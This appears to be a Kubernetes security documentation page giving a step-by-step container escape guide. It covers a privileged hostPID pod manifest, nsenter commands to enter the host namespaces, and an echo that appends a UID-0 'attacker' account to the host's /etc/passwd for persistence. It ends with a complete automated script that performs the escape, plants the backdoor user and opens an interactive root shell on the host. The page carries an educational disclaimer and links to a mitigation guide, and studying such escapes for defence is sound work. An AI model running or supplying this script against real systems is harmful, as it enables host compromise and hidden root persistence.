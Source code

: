 ```yaml
---
sidebar_position: 8
title: "Container Escape Guide"
description: "Step-by-step guide on breaking out of a container and gaining control over the host system."
---
```


# Container Escape Guide

This guide provides a detailed walkthrough of escaping from a container to gain full control over the host system. The process involves entering the host's namespaces and modifying critical system files.

## **Warning: Security Risk**

**The information and the script included in this article are intended for educational and security research purposes only.** It demonstrates how an attacker can escape a container and gain access to the host system. Running this script on a production system or unauthorized environment can lead to **severe security breaches, data loss, and system compromise.**

**Use this script only in a controlled, isolated testing environment where you have explicit permission.** Misuse of this information may violate company policies or legal regulations.

**You are responsible for how you use this information.** Proceed with caution.

---

## Prerequisites

To successfully escape from a container, the following conditions must be met:

- The container must run as root (`runAsUser: 0`).
- `allowPrivilegeEscalation: true` must be enabled.
- `hostPID: true` must be set to share the host’s process namespace.
- The container must have access to `/proc/1/root`, which exposes the host’s root filesystem.
- The container must have permission to execute `nsenter`.
- The `/proc` filesystem must be accessible from within the container.
- The container must be running in privileged mode (`privileged: true`).

## Step 1: Deploy a Test Pod with Required Privileges

To demonstrate container escape, use the following YAML file to create a privileged pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: test
  name: test
spec:
  hostPID: true
  containers:
  - image: busybox
    command: ["sleep", "infinity"]
    securityContext:
      runAsUser: 0
      allowPrivilegeEscalation: true
      privileged: true
    name: test
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Apply the pod to the cluster:

```bash
kubectl apply -f test-pod.yaml
```

## Step 2: Identify the Container Environment

Before attempting to escape, check if the container is running with elevated privileges and shares the host’s process namespace.

### Check the Container’s Mount Namespace

Run inside the container:

```bash
ls -l /proc/1/ns/mnt
```

Example output:

```
lrwxrwxrwx 1 root root 0 Mar 17 16:38 /proc/1/ns/mnt -> 'mnt:[4026535581]'
```

This confirms that the container is isolated in a separate mount namespace from the host. We’ll override that using `nsenter`.

---

## Step 3: Escape to the Host’s Namespaces

Use `nsenter` to enter the host’s namespaces. This method is more reliable than attempting bind-mounts.

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

Once inside, verify access:

```bash
hostname
whoami
```

If you’re in the host, you will see the host’s actual hostname and be root.

---

## Step 4: Create a Root User on the Host

Now that we’re inside the host context, you can add a root-level user to the host for persistence:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /etc/passwd
```

To verify:

```bash
grep attacker /etc/passwd
```

Expected output:

```
attacker:x:0:0::/root:/bin/bash
```

This creates a user named `attacker` with UID 0 (root privileges).

---

## **Automated Container Escape Script**

The following script automates the process of escaping a container by:

- Entering the host’s namespaces.
- Adding a new root user for persistence.
- Providing an interactive shell on the host.

```bash
#!/bin/sh

echo "[*] Checking if the container has access to the host's root filesystem..."
if [ ! -d "/proc/1/root" ]; then
    echo "[-] Cannot access /proc/1/root. Escape is not possible."
    exit 1
fi

echo "[+] Host root filesystem detected at /proc/1/root."

# Step 1: Ensure full namespace entry using exec nsenter
echo "[*] Attempting to enter the host's namespaces..."

exec nsenter --target 1 --mount --uts --ipc --net --pid --root=/proc/1/root /bin/sh -c '
    echo "[+] Successfully entered host namespaces."

    # Step 2: Modify /etc/passwd on the host to add an attacker user
    echo "[*] Adding attacker user to /etc/passwd..."
    echo "attacker:x:0:0::/root:/bin/bash" >> /etc/passwd

    echo "[+] Attacker user added. Verifying..."
    grep attacker /etc/passwd

    echo "[+] Escape complete. You are now inside the host."

    # Step 3: Verify the escape
    echo "[*] Checking system state..."
    echo "Hostname: $(hostname)"
    echo "User: $(whoami)"
    echo "[*] Checking if host kubelet process is visible..."
    ps aux | grep kubelet

    # Step 4: Open an interactive shell inside the host
    exec /bin/sh
'
```

---

## Conclusion

You successfully escaped the container by:

1. Deploying a privileged pod with `hostPID: true`.
2. Using `nsenter` to join the host’s namespaces.
3. Adding a root user to the host.
4. Gaining an interactive root shell on the host.

To learn how to prevent container escape vulnerabilities, refer to the mitigation guide:

➡ [Preventing Container Escape](https://geek-kb.github.io/k8s_security/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation/)
